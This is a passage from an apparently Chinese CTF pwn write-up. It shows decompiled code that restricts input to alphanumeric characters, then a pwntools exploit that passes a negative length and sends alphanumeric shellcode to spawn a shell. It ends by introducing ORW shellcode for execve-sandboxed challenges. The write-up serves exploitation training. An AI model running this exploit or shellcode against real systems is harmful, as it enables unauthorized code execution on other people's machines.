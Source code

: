 ```plain
  {
    puts("too long");
  }
  v5();
  return 0;
```

```plain
unsigned __int64 __fastcall myread(void *a1, unsigned int a2)
{
  char v3; // [rsp+1Fh] [rbp-11h]
  unsigned int i; // [rsp+20h] [rbp-10h]
  unsigned int v5; // [rsp+24h] [rbp-Ch]
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  v5 = read(0, a1, a2);
  for ( i = 0; i < v5; ++i )
  {
    v3 = *((_BYTE *)a1 + i);
    if ( (v3 <= 0x60 || v3 > 0x7A) && (v3 <= 0x40 || v3 > 0x5A) && (v3 <= 0x2F || v3 > 0x39) )
    {
      puts("Invalid character\n");
      exit(1);
    }
  }
  return v6 - __readfsqword(0x28u);
}
```

很明显限制了输入字符在 a~z,A~Z,0~9,

那么就用上面找到的纯字符 shellcode 即可

exp：

```plain
from pwn import *
context.log_level='debug'
context(os='linux', arch='amd64')
io = process('./vul')
#io = remote('47.100.137.175',32237)
shell = 'Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t'                       
io.sendlineafter('input the length of your shellcode:','-1')
gdb.attach(io)
pause()
io.sendafter('your shellcode:',shell)
io.interactive()
```

### orwshellcode

orw 实际上就是连续调用 open、read、write 三个系统调用来达到任意读写的效果，相当于是上面获取 shell 的 shellcode 的进阶版，一般在题目给出沙箱禁用了 execve 时会用到
